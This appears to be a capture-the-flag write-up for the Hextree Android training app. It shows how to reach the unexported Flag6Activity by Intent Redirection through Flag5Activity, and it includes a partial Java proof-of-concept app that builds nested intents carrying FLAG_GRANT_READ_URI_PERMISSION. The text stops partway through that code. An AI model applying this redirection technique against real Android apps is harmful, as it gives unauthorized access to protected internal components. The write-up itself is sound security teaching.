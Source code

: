 
# Flag6Activity

```java
<activity
    android:name="io.hextree.attacksurface.activities.Flag6Activity"
    android:exported="false"/>
<activity>
```

Oops! This activity is **not exported**. How can we call it if it’s not exported? Is this a dead end?

Well, not necessarily. Remember this part from **Flag5Activity**?

```java
if (this.nextIntent.getStringExtra("reason").equals("back")) {
    this.f.addTag(this.nextIntent.getStringExtra("reason"));
    success(this);
} else if (this.nextIntent.getStringExtra("reason").equals("next")) {
    intent.replaceExtras(new Bundle());
    startActivity(this.nextIntent);
}
```

What if we could abuse `startActivity(this.nextIntent);` and place our intent inside it to target **Flag6Activity**? This means we could potentially start **Flag6Activity** indirectly. Let’s first examine **Flag6Activity**:

```java
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    if ((getIntent().getFlags() & 1) != 0) {
        this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
        success(this);
    }
}
```

As you can see, it’s a simple activity that waits for the `FLAG_GRANT_READ_URI_PERMISSION` flag to call the `success()` method. This means we can reuse the POC app from **Flag5Activity** with a slight modification to achieve our goal.

This is called Intent Redirection, I recommend reading this blog by Anas 
https://medium.com/@0x3adly/android-intent-redirection-a-hackers-gateway-to-internal-components-ebe126bbb2e0

Here’s the updated POC app:

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        // Create the innermost intent (intent3)
        Intent intent3 = new Intent();
        intent3.putExtra("reason", "next"); // Set reason to "next" to trigger startActivity
        intent3.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag6Activity");
        intent3.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION); // Add the required flag

        // Create the middle intent (intent2) and embed intent3
        Intent intent2 = new Intent();
        intent2.putExtra("nextIntent", intent3);
        intent2.putExtra("return", 42);

```